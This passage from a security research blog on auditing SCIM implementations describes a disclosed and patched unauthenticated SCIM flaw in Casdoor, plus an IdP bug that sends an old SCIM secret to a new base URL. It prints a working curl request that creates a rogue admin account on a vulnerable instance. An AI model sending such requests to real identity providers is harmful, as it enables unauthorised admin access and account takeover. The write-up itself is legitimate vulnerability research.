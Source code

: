## Hunting for Bugs

Here are some examples of bugs you should look for when auditing SCIM implementations.

### Auth Bypasses

A few months ago, we published our advisory for _[Unauthenticated SCIM Operations In Casdoor IdP Instances](https://doyensec.com/resources/Doyensec_Advisory_UnauthenticatedSCIM-CasdoorIdP.pdf)_. Casdoor is an open-source identity solution that supports various authentication standards such as OAuth, SAML, OIDC, etc. It also includes SCIM, which means the Casdoor (IdP) would allow external systems to change its users.

Casdoor used the [elimity-com/scim](https://github.com/elimity-com/scim/) library, which does not include authentication in its configuration by default. As a result, a SCIM server defined and exposed using this library remains unauthenticated.

```
server := scim.Server{
 Config: config,
 ResourceTypes: resourceTypes,
 }

```

To exploit an instance, you needed emails matching the configured domains. A SCIM POST operation could create a new user matching the internal email domain and data.

```
➜ curl --path-as-is -i -s -k -X $'POST' \
 -H $'Content-Type: application/scim+json'-H $'Content-Length: 377' \
 --data-binary $’{\"active\":true,\"displayName\":\"Admin\",\"emails\":[{\"value\":\
\"admin2@victim.com\"}],\"password\":\"12345678\",\"nickName\":\"Attacker\",
\"schemas\":[\"urn:ietf:params:scim:schemas:core:2.0:User\",\
\"urn:ietf:params:scim:schemas:extension:enterprise:2.0:User\"],
\"urn:ietf:params:scim:schemas:extension:enterprise:2.0:User\":{\"organization\":
\"built-in\"},\"userName\":\"admin2\",\"userType\":\"normal-user\"}' \
 $'https://<CASDOOR_INSTANCE>/scim/Users'

```

Then, you could log in to the IdP dashboard with the new admin user `admin2:12345678`.

**Note**: The maintainers released a new version (v1.812.0) that includes a fix.

While that was a simple but critical issue, bypasses could be found in authenticated implementations. In other cases, the service could be available only internally and unprotected.

### SCIM Token Management

_[\*] IdP-Side Issues_

Since SCIM secrets allow dangerous actions on the Service Providers, they should be protected from being extracted after the setup. Testing or editing an IdP SCIM integration on a configured application should require a new SCIM token if the connector URL is different from the one previously set.

A popular IdP was found to be issuing the SCIM integration test requests to `/v1/api/scim/Users?startIndex=1&count=1` with the old secret while accepting a new `baseURL`.
